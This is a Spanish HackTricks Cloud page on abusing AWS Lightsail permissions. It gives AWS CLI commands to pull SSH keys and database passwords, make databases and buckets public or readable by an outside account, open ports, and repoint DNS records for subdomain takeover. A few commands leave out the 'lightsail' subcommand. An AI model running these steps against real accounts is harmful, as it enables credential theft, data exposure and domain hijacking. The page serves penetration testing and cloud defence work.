 # AWS - Escalada de privilegios en Lightsail

<details>

<summary><strong>¡Apoya a HackTricks y obtén beneficios!</strong></summary>

* Si quieres ver a **tu empresa anunciada en HackTricks** o si quieres acceder a la **última versión de PEASS o descargar HackTricks en PDF**, ¡consulta los [**PLANES DE SUSCRIPCIÓN**](https://github.com/sponsors/carlospolop)!
* Obtén el [**swag oficial de PEASS y HackTricks**](https://peass.creator-spring.com)
* Descubre [**The PEASS Family**](https://opensea.io/collection/the-peass-family), nuestra colección de exclusivos [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de Telegram**](https://t.me/peass) o **sígueme** en **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm).

* **Comparte tus trucos de hacking enviando PR a los repositorios de GitHub de** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>

## Lightsail

Para obtener más información sobre Lightsail, consulte:

{% content-ref url="../aws-services/aws-lightsail-enum.md" %}
[aws-lightsail-enum.md](../aws-services/aws-lightsail-enum.md)
{% endcontent-ref %}

{% hint style="warning" %}
Es importante tener en cuenta que Lightsail **no utiliza roles de IAM pertenecientes al usuario**, sino a una cuenta administrada por AWS, por lo que no se puede abusar de este servicio para la escalada de privilegios. Sin embargo, se podría encontrar **información sensible** como código, claves de API e información de la base de datos en este servicio.
{% endhint %}

### `lightsail:DownloadDefaultKeyPair`

Este permiso le permitirá obtener las claves SSH para acceder a las instancias:

```
aws lightsail download-default-key-pair
```

**Impacto potencial:** Encontrar información sensible dentro de las instancias.

### `lightsail:GetInstanceAccessDetails`

Este permiso le permitirá generar claves SSH para acceder a las instancias:

```bash
aws lightsail get-instance-access-details --instance-name <instance_name>
```

**Impacto potencial:** Encontrar información sensible dentro de las instancias.

### `lightsail:CreateBucketAccessKey`

Este permiso le permitirá obtener una clave para acceder al bucket:

```bash
aws lightsail create-bucket-access-key --bucket-name <name>
```

**Impacto potencial:** Encontrar información sensible dentro del bucket.

### `lightsail:GetRelationalDatabaseMasterUserPassword`

Este permiso le permitirá obtener las credenciales para acceder a la base de datos:

```bash
aws lightsail get-relational-database-master-user-password --relational-database-name <name>
```

**Impacto potencial:** Encontrar información sensible dentro de la base de datos.

### `lightsail:UpdateRelationalDatabase`

Este permiso le permitirá cambiar la contraseña para acceder a la base de datos:

{% code overflow="wrap" %}
```bash
aws lightsail update-relational-database --relational-database-name <name> --master-user-password <strong_new_password>
```
{% endcode %}

Si la base de datos no es pública, también se podría hacer pública con estos permisos con

{% code overflow="wrap" %}
```bash
aws lightsail update-relational-database --relational-database-name <name> --publicly-accessible
```
{% endcode %}

**Impacto potencial:** Encontrar información sensible dentro de la base de datos.

### `lightsail:OpenInstancePublicPorts`

Este permiso permite abrir puertos a Internet

```bash
aws lightsail open-instance-public-ports \
    --instance-name MEAN-2 \
    --port-info fromPort=22,protocol=TCP,toPort=22
```

**Impacto potencial:** Acceder a puertos sensibles.

### `lightsail:PutInstancePublicPorts`

Este permiso permite abrir puertos a Internet. Tenga en cuenta que la llamada cerrará cualquier puerto abierto que no se especifique en ella.

```bash
aws lightsail put-instance-public-ports \
    --instance-name MEAN-2 \
    --port-infos fromPort=22,protocol=TCP,toPort=22
```

**Impacto potencial:** Acceder a puertos sensibles.

### `lightsail:SetResourceAccessForBucket`

Este permiso permite dar acceso a una instancia a un bucket sin necesidad de credenciales adicionales

{% code overflow="wrap" %}
```bash
aws set-resource-access-for-bucket \
    --resource-name <instance-name> \
    --bucket-name <bucket-name> \
    --access allow
```
{% endcode %}

**Impacto potencial:** Nuevo acceso potencial a buckets con información sensible.

### `lightsail:UpdateBucket`

Con este permiso, un atacante podría otorgar a su propia cuenta de AWS acceso de lectura sobre buckets o incluso hacer que los buckets sean públicos para todos:

```bash
# Conceder acceso de lectura a una cuenta externa
aws update-bucket --bucket-name <value> --readonly-access-accounts <external_account>

# Conceder acceso de lectura al público
aws update-bucket --bucket-name <value> --access-rules getObject=public,allowPublicOverrides=true

# Bucket privado pero objetos individuales pueden ser públicos
aws update-bucket --bucket-name <value> --access-rules getObject=private,allowPublicOverrides=true
```

**Impacto potencial:** Nuevo acceso potencial a buckets con información sensible.

### `lightsail:UpdateContainerService`

Con estos permisos, un atacante podría otorgar acceso a ECR privados desde el servicio de contenedores

```bash
aws update-container-service \
    --service-name <name> \
    --private-registry-access ecrImagePullerRole={isActive=boolean}
```

**Impacto potencial:** Obtener información sensible de ECR privados

### `lightsail:CreateDomainEntry`

Un atacante con este permiso podría crear un subdominio y apuntarlo a su propia dirección IP (toma de subdominio), o crear un registro SPF que le permita falsificar correos electrónicos del dominio, o incluso establecer el dominio principal en su propia dirección IP.

```bash
aws lightsail create-domain-entry \
    --domain-name example.com \
    --domain-entry name=dev.example.com,type=A,target=192.0.2.0
```

**Impacto potencial:** Tomar el control de un dominio

### `lightsail:UpdateDomainEntry`

Un atacante con este permiso podría crear un subdominio y apuntarlo a su propia dirección IP (toma de subdominio), o crear un registro SPF que le permita falsificar correos electrónicos del dominio, o incluso establecer el dominio principal en su propia dirección IP.

```bash
aws lightsail update-domain-entry \
    --domain-name example.com \
    --domain-entry name=dev.example.com,type=A,target=192.0.2.0
```

**Impacto potencial:** Tomar el control de un dominio

<details>

<summary><strong>¡Apoya a HackTricks y obtén beneficios!</strong></summary>

* Si quieres ver a **tu empresa anunciada en HackTricks** o si quieres acceder a la **última versión de PEASS o descargar HackTricks en PDF**, ¡consulta los [**PLANES DE SUSCRIPCIÓN**](https://github.com/sponsors/carlospolop)!
* Obtén el [**swag oficial de PEASS y HackTricks**](https://peass.creator-spring.com)
* Descubre [**The PEASS Family**](https://opensea.io/collection/the-peass-family), nuestra colección de exclusivos [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de Telegram**](https://t.me/peass) o **sígueme** en **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm).

* **Comparte tus trucos de hacking enviando PR a los repositorios de GitHub de** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
